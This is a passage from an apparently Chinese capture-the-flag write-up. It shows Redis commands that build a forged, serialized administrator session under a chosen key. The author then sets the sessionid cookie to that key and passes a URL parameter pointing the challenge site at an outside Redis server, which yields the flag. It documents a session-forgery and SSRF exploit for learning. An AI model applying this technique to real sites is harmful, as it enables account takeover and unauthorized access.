 本地测试，可以看到：
```
127.0.0.1:6379> keys *
1) "ubar4t1tpicq8152csdr351pabbkl0a6"
2) "h1234566"
127.0.0.1:6379> get h1234566
"OGIzY2Y0ZWFkOGI1MzExZ"
127.0.0.1:6379> get h1234566
"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM"
127.0.0.1:6379> get h1234566
"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqAB"
127.0.0.1:6379> get h1234566
"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjAR"
127.0.0.1:6379> get h1234566
"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc"
127.0.0.1:6379> get h1234566
"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc3RyYXRvcpRzLg=="
```

修改本地cookies sessionid的值为`h1234566`，已经成功。

于是我们在网址上分别进行输入`0:5000?target=公网ip/redis`、redis1、2...

然后修改cookies，成功得到flag。